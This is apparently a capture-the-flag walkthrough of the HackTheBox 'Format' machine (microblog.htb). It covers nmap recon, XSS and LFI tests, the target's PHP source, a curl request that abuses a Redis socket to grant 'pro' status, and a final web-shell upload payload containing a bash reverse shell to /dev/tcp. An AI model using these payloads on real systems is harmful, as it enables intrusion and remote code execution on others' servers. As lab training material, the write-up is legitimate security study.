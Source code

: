![Format-1024x775](https://github.com/st1llz0r/Format/assets/142597099/41c58bf0-ac14-41de-9e74-8d425beeeefb)

Let's go

information collection;
  Scanning target host.

nmap -sS -sVC target ip;

![image](https://github.com/st1llz0r/Format/assets/142597099/6773bb04-d5b4-4b0d-bbb6-d7159a9cbafb)

  Navigate to target IP port 80;
  Nothing, so try and Spoof DNS;

 <b> echo '10.10.11.213 microblog.htb' >> /etc/hosts </b>;

 Trying again, we can discover http://app.microblog.htb, therefore spoof it. bind the domain to hosts file;

 Browser input > http://app.microblog.htb;

 Browse the web app and see what functionalities it has;

 Create an account and publish your own blog. Test out the Editing page and so on;

 On the editing page let's try and see how the web page reacts to basic XSS; Use the h1 option and input:

 <b> <script>alert(1)</script> </b>;

 Hmm, interesting result;

 Now let's try something crispier;

 Now let's change it to text and capture the traffic by using Burpy suite;

 Analyze the pack

  ![image](https://github.com/st1llz0r/Format/assets/142597099/52e58d19-1292-4a6a-a383-98a9ca924351)

  After analyzing let's start with basic stuff, basic LFI:

 ![image](https://github.com/st1llz0r/Format/assets/142597099/dfc3ff0a-2bac-4c0c-9bcb-cf08433e7a27)


n0w navigate to your browser and refresh:

 ![image](https://github.com/st1llz0r/Format/assets/142597099/2f0d0e67-ddc0-4af7-81e6-10b07a060be5)

Pew pew pew pew
We got a lead
redis and git and user
let's navigate to http://microblog.htb:3000/

Who would ve thought =D



![image](https://github.com/st1llz0r/Format/assets/142597099/e5e3b712-7d3c-45d5-8552-d3b320d04135)



![image](https://github.com/st1llz0r/Format/assets/142597099/12aee48a-ae78-492a-9a95-a12172e64969)


So, there is this Cooper guy (USER) who has created this sunny (blog domain);

Site is pretty basic as in infrastructure so the folders and all will apply for our account also;

Go into the Sunny Folder > check index.php and analyze code;

```php
<?php
$username = session_name("username");
session_set_cookie_params(0, '/', '.microblog.htb');
session_start();

function checkAuth() {
    return(isset($_SESSION['username']));
}

function checkOwner() {
    if(checkAuth()) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $subdomain = array_shift((explode('.', $_SERVER['HTTP_HOST'])));
        $userSites = $redis->LRANGE($_SESSION['username'] . ":sites", 0, -1);
        if(in_array($subdomain, $userSites)) {
            return $_SESSION['username'];
        }
    }
    return "";
}

function getFirstName() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $firstName = $redis->HGET($_SESSION['username'], "first-name");
        return "\"" . ucfirst(strval($firstName)) . "\"";
    }
}

function fetchPage() {
    chdir(getcwd() . "/content");
    $order = file("order.txt", FILE_IGNORE_NEW_LINES);
    $html_content = "";
    foreach($order as $line) {
        $temp = $html_content;
        $html_content = $temp . "<div class = \"{$line}\">" . file_get_contents($line) . "</div>";
    }
    return $html_content;
}

?>
<!DOCTYPE html>
<head>
<link rel="icon" type="image/x-icon" href="/images/brain.ico">
<link rel="stylesheet" href="http://microblog.htb/static/css/styles.css">
<script src="http://microblog.htb/static/js/jquery.js"></script>
<title></title>
<script>
    $(window).on('load', function(){
        const html = <?php echo json_encode(fetchPage()); ?>.replace(/(\r\n|\n|\r)/gm, "");
        $(".push-for-h1").after(html);
        if(html.length === 0) {
            $(".your-blog").after("<div class = \"empty-blog\">Blog in progress... check back soon!</div>");
            $(".push-for-h1").css("display", "none");
        }
        const siteOwner = <?php echo json_encode(checkOwner()); ?>;
        if(siteOwner.length > 0) {
            $(".your-blog").css("display", "flex");
            $(".user-first-name").text(<?php echo getFirstName(); ?>);
        }
        const class_after_push = $(".push-for-h1").next().children().attr('class');
        if(class_after_push) {
            if(class_after_push.includes("blog-h1")) {
                $(".push-for-h1").css("display", "none");
            }
        }

        const blogName = String(window.location).split('.')[0].split('//')[1]
        document.title = blogName + " - Microblog"
    });
</script>
</head>
<body>
    <div class = "your-blog">
        <div><span class = "user-first-name"></span>, this is your blog! <a href = "/edit" style = "color: white;"><b>Edit it here.</b></a></div>
    </div>
    <div class = "push-for-h1" style = "min-height: 25px;"></div>
    <footer>
        © 2022 Microblog<br/>
        <a href="https://www.vecteezy.com/free-vector/brain">Brain Vectors by Vecteezy</a>
    </footer>
</body>
</html>

```
This provisionProUser () function seems to set a USER to be a PRO USER;

isPro () instructs us how to;

So we need to use a redis command in order to make our account PRO user;

Worth to check https://redis.io/commands/hset/;

```php

curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:YOUR_USERNAME%20pro%20true%20/b"

```

![image](https://github.com/st1llz0r/Format/assets/142597099/4b0d839a-ea34-41cc-994f-3d5294c51705)

![image](https://github.com/st1llz0r/Format/assets/142597099/abcc5c4d-09cf-4f73-9e47-18dcb43330c0)

Oulalala, if we check top right corner, now we are PRO USER and we can upload images also :P;

Upload a few images, add text and now using the text add function on the blog editor turn on Burpy suite and intercept again;
Now send to repeater and modify it this way:

![image](https://github.com/st1llz0r/Format/assets/142597099/4d8b101a-ec2c-42e7-91ce-63cdee8ffe58)

Before hitting send open NC set it to desired port;

![image](https://github.com/st1llz0r/Format/assets/142597099/cb1ba58b-c329-4649-9b48-2b1896955a2c)


```php


id=/var/www/microblog/blog_name/uploads/rev.php&txt=<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/IP/PORT+0>%261'")%3b%3f>

```
Hit SEND on Repeater Burpy;


